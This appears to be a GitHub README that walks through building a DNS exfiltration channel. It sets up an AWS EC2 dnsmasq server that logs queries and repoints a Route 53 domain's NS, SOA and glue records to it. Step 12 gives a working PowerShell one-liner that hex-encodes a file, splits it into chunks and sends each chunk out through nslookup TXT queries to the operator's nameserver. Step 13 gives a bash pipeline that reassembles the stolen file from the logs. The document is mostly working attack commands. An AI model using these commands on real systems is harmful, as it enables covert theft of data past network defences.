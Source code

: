 # DNS Exfil
DNS Exfiltration Setup on AWS

## Step 1: Purchase Domain Name on Route 53
Verify your email!

## Step 2: Create EC2 instance to host DNS service and logging
Use Amazon Linux OS, or any Linux OS of your preference.
Logging will contain DNS requests with encoded information, which we can then grep and cut later.

## Step 3: Create Security Groups
Inbound - Allow ICMP, TCP DNS, UDP DNS, SSH  
Outbound - Any  

## Step 4: Install dnsmasq on EC2 instance and configure it
`sudo yum install dnsmasq`  
`sudo nano /etc/dnsmasq.conf`  
  
Then input the content below, right at the bottom of the config file    
  
listen-address=<EC2's private IP>  
address=/#/<EC2's public IP>  
log-queries  
log-facility=/var/log/dnsmasq.log  
  
Restart the VM, or find a way to restart dnsmasq 
`ps -aux | grep dnsmasq`  
`sudo kill <pid of dnsmasq>`
`sudo systemctl restart systemd-networkd.service`  
`sudo dnsmasq`

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/b0cfaf2f-93c0-4967-957c-cd3269241435)
  

## Step 5: Go to Route 53 config, note down default SOA and NS records  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/3291d850-0692-4017-9cd0-398aa51e97ea)


## Step 6: Create A Record to point from record name to your EC2 instance
**Record Name:** ns1.<yourdomain.com>  
**Type:** A  
**Value:** <your EC2 public IP address>  
**TTL:** 300  

**Record Name:** ns2.<yourdomain.com>  
**Type:** A  
**Value:** <your EC2 public IP address>
**TTL:** 300  

## Step 7: Modify existing NS Record to point to your NS records, which point to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** NS  
**Value:**  
ns1.<yourdomain.com>  
ns2.<yourdomain.com>  
**TTL:** 60  

## Step 8: Modify existing SOA record to point to your NS record, which points to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** SOA  
**Value:** ns1.<yourdomain.com>. admin.<yourdomain.com> 1 7200 900 1209600 86400  
**TTL:** 60  

## Step 9: Modify glue records
In Route 53, click on Registered domains > click Actions > Edit name servers

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/ca4d78ab-49ac-4880-bbfc-755626bd8bcf)  
    

Note down the current name server settings before making any modifications  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/35cf3290-b494-45de-9752-fea7e57e7f91)


Once current settings noted down, change it to point to your own DNS server then Save.  
**Name Server:** ns1.<yourdomain.com>  
**Glue Records:** <your EC2 public IP address>  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/90d99de8-7099-4c4c-be81-5d9a8b68df3e)
  

## Step 10: Use CMD to nslookup as a test
nslookup -q=TXT 12332145343dafdsa234234123123453asdf234sadfsadfasdf ns1.<yourdomain.com>  


## Step 11: Check your DNS logs in EC2
sudo cat /var/log/dnsmasq.log | grep -F "[TXT]"  


## Step 12: Powershell command to hex encode a file, split, and do nslookup

`certutil -encodehex ToExfil.txt encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; foreach ($line in $split) {nslookup -q=TXT "$Line.<yourdomain.com>" ns1.<yourdomain.com>; sleep 5} `


## Step 13: Use a BASH command to read contents from TXT requests, remove unnecessary content, remove line break, remove spacing

`sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 7 -d ' ' | cut -f 1 -d '.' | sed -z 's/\n/ /g' | sed -e 's/[[:space:]]//g' > output`  
`sudo cat output | xxd -p -r > ToExfil.txt | cat ToExfil.txt`  


